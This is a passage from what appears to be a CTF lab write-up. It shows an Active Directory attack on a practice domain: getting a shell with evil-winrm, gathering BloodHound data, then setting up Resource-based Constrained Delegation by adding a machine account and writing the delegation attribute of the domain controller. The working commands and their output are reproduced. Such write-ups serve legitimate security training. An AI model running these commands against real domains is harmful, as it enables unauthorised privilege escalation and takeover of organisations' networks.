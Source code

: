 Using the password with `evil-winrm`, we can obtain a shell and read the user flag located at `C:\Users\o.armstrong\Desktop\user.txt`.

```console
$ evil-winrm -i k2rootdc.k2.thm -u 'o.armstrong' -p 'ar[REDACTED]08'

*Evil-WinRM* PS C:\Users\o.armstrong\Documents> whoami
k2\o.armstrong
```

> If you're wondering why we bothered to figure out the password for the `o.armstrong` user despite already having a shell as the user, it's to make the next step easier by allowing us to carry out the attack from our own machine. Since `Defender` is running on the target, exploiting it from the shell we obtained would be more challenging.
{: .prompt-tip }

### RBCD

We can also use these credentials to collect `BloodHound` data again.

```console
$ bloodhound-python -ns 10.10.70.89 --dns-tcp -u 'o.armstrong' -p 'ar[REDACTED]08' --zip -c All -d k2.thm
```

Examining our rights in **BloodHound**, we can see that the user `o.armstrong` is a member of the `IT Director` group, whose members have `GenericWrite` right over the `K2ROOTDC`.

![Summit Bloodhound](summit_bloodhound.webp){: width="1000" height="300" }

We can use this to perform a `Resource-based Constrained Delegation` attack after modifying the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the `K2ROOTDC` with our rights.

First, we will use `addcomputer.py` to create a machine account that we control.

```console
$ addcomputer.py -method SAMR -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host K2ROOTDC.K2.THM -domain-netbios K2.THM 'K2.THM/o.armstrong:ar[REDACTED]08'

[*] Successfully added machine account ATTACKERSYSTEM$ with password Summer2018!.
```
{: .wrap }

Next, we will use `rbcd.py` to modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of `K2ROOTDC` with our newly created machine account.

```console
$ rbcd.py -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'K2ROOTDC$' -action 'write' 'K2.THM/o.armstrong:ar[REDACTED]08'

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] ATTACKERSYSTEM$ can now impersonate users on K2ROOTDC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     ATTACKERSYSTEM$   (S-1-5-21-1966530601-3185510712-10604624-1116)
```
{: .wrap }
